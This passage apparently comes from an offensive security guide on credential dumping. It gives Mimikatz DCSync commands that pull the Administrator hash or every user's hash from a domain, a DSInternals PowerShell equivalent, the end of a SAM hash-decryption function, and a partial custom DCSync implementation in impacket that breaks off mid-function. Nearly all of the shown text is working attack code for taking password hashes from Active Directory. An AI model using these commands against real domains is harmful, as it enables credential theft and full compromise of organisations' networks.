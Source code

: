 ```python
    nt_hash = data[nt_hash_offset:nt_hash_offset+16]
    
    # Decrypt with SYSKEY
    decrypted = decrypt_hash(nt_hash)
    
    return decrypted.hex()
```

### 1.3 DCSync Attack (T1003.006)

Impersonate Domain Controller to request password hashes.

```powershell
# Mimikatz DCSync
mimikatz.exe "lsadump::dcsync /domain:corporate.local /user:Administrator" "exit"

# DCSync all users
mimikatz.exe "lsadump::dcsync /domain:corporate.local /all /csv" "exit"

# PowerShell implementation
Import-Module DSInternals

$creds = Get-Credential
$dc = "dc01.corporate.local"

# Request hash for specific user
Get-ADReplAccount -SamAccountName Administrator -Domain corporate.local -Server $dc -Credential $creds
```

#### Custom DCSync Implementation
```python
from impacket.dcerpc.v5 import drsuapi, transport
from impacket.dcerpc.v5.dtypes import NULL

def dcsync_user(domain, username, dc_ip, user, password):
    """Custom DCSync implementation"""
    
    # Connect to DRSUAPI
    binding = f"ncacn_ip_tcp:{dc_ip}[135]"
    rpc_transport = transport.DCERPCTransportFactory(binding)
    rpc_transport.set_credentials(user, password, domain)
    
    dce = rpc_transport.get_dce_rpc()
    dce.connect()
    dce.bind(drsuapi.MSRPC_UUID_DRSUAPI)
    
    # DRSBind
    request = drsuapi.DRSBind()
    request['puuidClientDsa'] = drsuapi.NTDSAPI_CLIENT_GUID
    drs_bind = drsuapi.DRS_EXTENSIONS_INT()
    request['pextClient']['cb'] = len(drs_bind)
    request['pextClient']['rgb'] = list(str(drs_bind))
    
    resp = dce.request(request)
    drs_handle = resp['phDrs']
    
    # DRSCrackNames to get user DN
    request = drsuapi.DRSCrackNames()
    request['hDrs'] = drs_handle
    request['dwInVersion'] = 1
    
    name_request = drsuapi.DRS_MSG_CRACKREQ_V1()
    name_request['formatOffered'] = drsuapi.DS_NT4_ACCOUNT_NAME
```